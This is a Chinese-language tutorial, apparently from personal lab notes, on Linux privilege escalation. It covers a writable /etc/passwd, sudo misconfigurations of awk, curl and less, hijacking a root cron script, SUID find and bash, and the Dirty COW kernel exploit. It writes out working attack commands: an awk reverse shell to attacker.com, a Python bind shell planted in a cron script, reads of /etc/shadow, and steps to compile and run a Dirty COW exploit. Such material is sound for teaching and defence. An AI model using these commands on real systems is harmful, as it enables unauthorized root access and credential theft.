

# linux提权

```
linux 提权除了内核级别的漏洞其余的都是管理员的错误配置
```
## 提权的大致方式

```
​```
1、etc/passwd密码修改提权

	每一行的第二个数据如果为x表示密码存放到/etc/shadow文件下，登录时会从/etc/shadow文件下寻找，如果为hash值，登陆时以/etc/passwd下的hash值为准。
	如果具有修改/etc/passwd文件的权限，将root用户对应的x更改为已经设置好的hash值，那么就能够更改root用户的密码

2、sudo 滥用提权
	当普通用户执行权限不够时,可以使用sudo命令来提升权限.其配置文件是/etc/sudoers
	当管理员出现以下错误配置时会导致sudo滥用提权
        1、awk	
            pio     ALL=(ALL) /usr/bin/awk
        2、curl-读取敏感文件
            pio     ALL=(ALL) /usr/bin/curl
        3、less-提权复现
        查看文件内容)
            pio     ALL=(ALL) /usr/bin/less
3、计划任务提权
	通过查看/etc/crontab文件的配置信息，(一般都是管理员配置错误)
	如果有以root权限执行的定时任务，并且执行的脚本是可控的,就可以直接更改脚本，通过定时任务提权(例如：通过bash -i 反弹会话)
	
4、suid提权
	SUID是赋予文件的一种权限，它会出现在文件拥有者权限的执行位上，具有这种权限的文件在其执行时，会使得调用者暂时获得该文件拥有者的权限。
	查看目标服务器是否存在错误配置(就是目标服务器某些文件的uid设置为了s)
	find / -perm -u=s -type f 2>/dev/null
	
	例如:
	/usr/bin/bash 
	/usr/bin/find  如果uid属性配置为s，那么就能够进行提权
5、脏牛提权
	linux低版本内核的子系统在处理写入时复制至产生了竞争条件,利用这个竞争条件我们可以往 /etc/passwd文件中写入了一个root用户,和对应的密码
```


普通用户创建

```
useradd -m pio  -m 自动创建目录

passwd pio 设置密码

这里切换用户来表示 普通用户提权
```


### etc/passwd 密码提权

**前提：**
	**有对etc/passwd文件的修改权限**

```
原理:
	如果/etc/passwd下的文件中账户对应的密码为x，那么就回到/etc/shadow文件中查找，如果/etc/passwd中存在密码，那么默认以/etc/passwd中的密码为准。
	如果/etc/passwd可写，就可以把root的密码字段(x)替换成一个已知密码的hash（比如本机shadow里面的root密码hash），这样系统在验证密码时以passwd的为准，密码就已知了。
```

```
大多数linux系统的密码都和/etc/passwd和/etc/shadow这两个配置文件息息相关。
passwd里面储存了用户，shadow里面是密码的hash。
出于安全考虑passwd是全用户可读，root可写的。shadow是仅root可读写的
```

```
etc/passwd 文件单行内容
root:x:0:0:root :/root:/bin/bash
由冒号分割，
第一列是用户名（daemon）；
第二列是密码，x表示密码的hash值保存在shadow文件中
第三列是UID
第四列是GID
第五列是用户全名或本地账号
第六列是home目录
第七列是登录之后使用的终端命令
```

##### 具体操作

**本地创建一个用户**
**得到该用户密码的hash**


**将该hash替换目标服务器/etc/passwd root密码对应的hash(下面操作模拟在目标服务器)**


**注销查看密码更改是否生效**


**成功进入**

### 密码复用提权

**就是服务器的运维或者管理员使用同一个密码导致撞库攻击**

```
形如config.php,config.inc等等文件中含有的密码很有可能就是root密码
如数据库、后台web密码，可能就是root密码   
```

### sudo 滥用提权

**能够让一个低权限的用户执行root权限的命令(针对的是用户)**

##### 参考链接:https://gtfobins.github.io/gtfobins/

```
sudo 是用来提权的命令,当普通用户执行权限不够时,可以使用sudo命令来提升权限.其配置文件是/etc/sudoers
Sudo –l这个命令可以查看有当前用户有哪些命令可以以特定的权限(root)执行,只需要验证自身权限的密码即可.
```

```
管理员图省事而，在/etc/sudoers中存在错误的配置导致提权
```
#### 如果/etc/sudoers文件存在以下配置便可以提权

```
1、awk()	
	pio     ALL=(ALL) /usr/bin/awk
2、curl  读取敏感文件
	pio     ALL=(ALL) /usr/bin/curl
3、less(原本功能为滚动
查看文件内容)
	pio     ALL=(ALL) /usr/bin/less
```

**cat /etc/sudoers**

**低权限用户查看sudoers文件配置信息**

```
sudo -l 查看管理员是否滥用配置
```


```
root    ALL=(ALL:ALL) ALL
pio     ALL=(ALL) ALL
说明
用户名   允许连接的ip=执行命令的目标用户:该用户所属的组  执行的命令范围
```


ALL=(ALL) /usr/bin/awk


ALL=(ALL) /usr/bin/awk

##### awk提权复现

编辑/etc/sudoers文件，添加 /usr/bin/awk

```
1、visudo /etc/sudoers
2、将all替换为/usr/bin/awk
3、ctrl + o 
4、回车
5、ctrl +x
6、在普通用户处执行sudo -l 查看可以执行的命令
7、利用   命令： sudo awk 'BEGIN {system("/bin/sh")}'
```


**1、通过这种方式反弹root shell**

```
参考链接 https://gtfobins.github.io/gtfobins/awk/

攻击方:nv -lvp 10875
RHOST=attacker.com
RPORT=10875
awk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
    s = "/inet/tcp/0/" RHOST "/" RPORT;
    while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
    while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
```

**复现如下**

```
1.win7为为攻击机
1.26为需要反弹root shell到win7的靶机
```


**2、通过这种方式主动连接 shell**

```
参考链接 https://gtfobins.github.io/gtfobins/awk/

LPORT=12345
awk -v LPORT=$LPORT 'BEGIN {
    s = "/inet/tcp/" LPORT "/0/0";
    while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
    while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
ncat.exe -nv 192.168.1.26 12345
```


**3、通过awk修改/etc/passwd文件内容**

```
LFILE=xx.txt  需要写入的文件
LFILE=file_to_write
awk -v LFILE=$LFILE 'BEGIN { print "DATA" > LFILE }' DATA就是需要写入的内容
```

**4、通过awk读取/etc/shadow文件内容**

```
LFILE=/etc/shadow
sudo awk '//' "$LFILE"
```


##### curl读取密码文件复现

```
1、visudo /etc/sudoers
2、将all替换为/usr/bin/curl
3、ctrl + o 
4、回车
5、ctrl +x
6、在普通用户处执行sudo -l 查看可以执行的命令
7、利用   命令： sudo curl file:///etc/shadow
即可查看到etc/shadow文件下的内容
```


##### less提权复现

```
1、visudo /etc/sudoers
2、将all替换为/usr/bin/less
3、ctrl + o 
4、回车
5、ctrl +x
6、在普通用户处执行sudo -l 查看可以执行的命令
7、利用   
命令： 
sudo less /etc/profile
!/bin/sh
即可查看到etc/shadow文件下的内容
```




**会自动跳转到root权限**


### 计划任务提权

```
linux系统中有一些定时执行的任务，一般这些任务由crontab来管理，具有所属用户的权限。非root权限的用户是不可以列出root用户的计划任务的。但是/etc/内系统的计划任务可以被列出
修改/etc/crontab才能生效


如果有以root权限执行的定时任务，并且执行的脚本是可控的,就可以直接更改脚本，通过定时任务提权
例如计划任务的脚本在tmp目录下  /tmp/server.py

cat /etc/crontab
* *  * * * root /usr/bin/python3 /tmp/server.py  --tmp目录
```


**这里可以通过修改计划任务文件进行提权**

**vi /tmp/server.py**

```
import socket
import os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(('172.20.10.7', 12345))
s.listen(5)
while True:
	conn, addr = s.accept()
	for i in range(10):
		cmd = conn.recv(1024)
		print(cmd)
		command = cmd.decode(encoding='utf-8')
		if command.startswith("cd"):
			os.chdir(command[2:].strip())
			result = os.getcwd()
		else:
			result = os.popen(command).read()
		if result:
			conn.send(result.encode('utf-8'))
		else:
			conn.send(b'ok')
```

**使用client.py 进行连接**

```
python3 client.py
```

### suid提权(find)

**针对的是文件权限**

```
SUID（设置用户ID）是赋予文件的一种权限，它会出现在文件拥有者权限的执行位上，具有这种权限的文件会在其执行时，会使得调用者暂时获得该文件拥有者的权限。

SUID 是一种特殊的文件属性，允许用户以该文件的拥有者的身份运行

一般是服务器的运维配置错误造成的

那么，为什么要给Linux二进制文件设置这种权限呢？其实原因有很多，例如，程序ping需要root权限才能打开网络套接字，但执行该程序的用户通常都是由普通用户，来验证与其他主机的连通性。
```

**管理员可能存在的错误配置**

```
chmod 4755 /usr/bin/find
```


**查看目标服务器是否存在错误配置**

```
find / -perm -u=s -type f 2>/dev/null
chmod 4755 /usr/bin/bash
```


**find提权复现**

```
touch 1.txt ;
find 1.txt -exec whoami \;
find 1.txt -exec cat /etc/passwd \;
也可以使用nc 进行反弹，但是权限貌似还是普通用户
find 1.txt -exec nc -lvp port \;
```


**bash提权复现**

```
chmod 4755 /usr/bin/bash
bash -p
```


### 脏牛提权

**大致原理:就是利用竞争条件往 /etc/passwd文件中写入了一个root用户**

```
大于2.6.22版本 (2007年发行，到2016年10月18日修复)
危害：低权限的用户可利用这一漏洞在本地进行提权
原理：linux内核的子系统在处理写入时复制至产生了竞争条件，恶意用户可利用此漏洞来获取高权限，对只读内存映射进行访问。
竞争条件:指的是任务执行顺序异常，可导致应用奔溃，或令攻击者有机可乘，进一步执行其他代码，利用这一漏洞，攻击者可在其目标系统提升权限，甚至可能获取到root权限。
```

**linux 提权漏洞检测脚本**

```
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh

./linux-exploit-suggester.sh
```


**漏洞复现**

```
在服务器tmp目录创建一个提权文件
vi dirty.c
编译该提权文件
gcc -pthread dirty.c -o dirty -lcrypt
为编译后的文件添加执行权限
chmod +x dirty
将编译后的提权文件执行
./dirty root(指定添加用户的密码为root)

注意：脏牛提权之前需要把/etc/passwd文件进行备份，这里的的提权脚本默认会备份为passwd.bak文件，改完密码之后记得将/etc/passwd文件覆盖
```


**再次打开一个终端，发现密码账户已经更改，并且该用户成功添加**


**注销用户，尝试使用提权创建的用户(firefart)进行登录,发现可以成功登录**


**实验完成将之前备份的passwd.bak文件覆盖/etc/passwd**
